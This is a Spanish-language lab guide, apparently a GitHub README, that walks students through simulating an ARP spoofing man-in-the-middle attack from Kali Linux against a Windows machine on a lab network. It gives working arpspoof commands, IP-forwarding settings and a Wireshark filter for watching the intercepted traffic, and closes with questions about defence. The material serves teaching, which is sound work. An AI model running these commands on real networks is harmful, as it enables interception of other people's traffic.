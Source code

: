 # ARP-Spoofing
Laboratorio: Simulación de Ataque ARP Spoofing

## 🎯Objetivo
Comprender cómo funciona un ataque de ARP Spoofing y observar sus efectos en una red local, utilizando herramientas básicas de Kali Linux.

## 📋Requisitos
- Kali Linux (máquina atacante)
- Windows (máquina víctima)
- Ambas máquinas conectadas a la misma red local (puede ser una red virtual como en VirtualBox o VMware)

## 🔧Herramientas:
  - arpspoof (incluida en Kali)
  - Wireshark (opcional, para análisis de tráfico)
  - ping o navegación web desde Windows

## ☑ Actividades a realizar en el Laboratorio
### 1.Configuración de red
Verifica que ambas máquinas estén en la misma red:
- En Kali: `ip a`
- En Windows: `ipconfig`

Anota las IPs de:
- Kali Linux *(ej. 192.168.62.140)*
- Windows *(ej. 192.168.62.144)*
- Gateway de la Red *(ej. 192.168.62.2)*

### 2.Habilitar el reenvío de paquetes en Kali
En Kali, ejecuta el siguiente comando para habilitar el reenvío de paquetes:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

### 3.Ejecutar ARP Spoofing desde Kali
Abre dos terminales en Kali:
- Terminal 1: Enviar paquetes falsos al equipo Windows:

`arpspoof -i eth0 -t 192.168.62.144 192.168.62.2`

- Terminal 2: Enviar paquetes falsos al router:

`arpspoof -i eth0 -t 192.168.62.2 192.168.62.144`

Reemplaza `eth0` con el nombre correcto de tu interfaz de red si es diferente (puedes verificarlo con `ip a`).

### 4. Observar el tráfico (opcional)
Abre Wireshark en Kali y filtra por `ip.addr == 192.168.62.144`

Desde Windows, navega por internet o haz `ping` a una página.

Observa cómo Kali intercepta el tráfico.

### 5.Detener el ataque
Detén los procesos de `arpspoof` con `Ctrl+C`

Desactiva el reenvío de paquetes:

`echo 0 > /proc/sys/net/ipv4/ip_forward`

## Preguntas de analisis
1. ¿Qué observaste en Wireshark durante el ataque?
2. ¿Cómo podrías proteger una red contra este tipo de ataques?

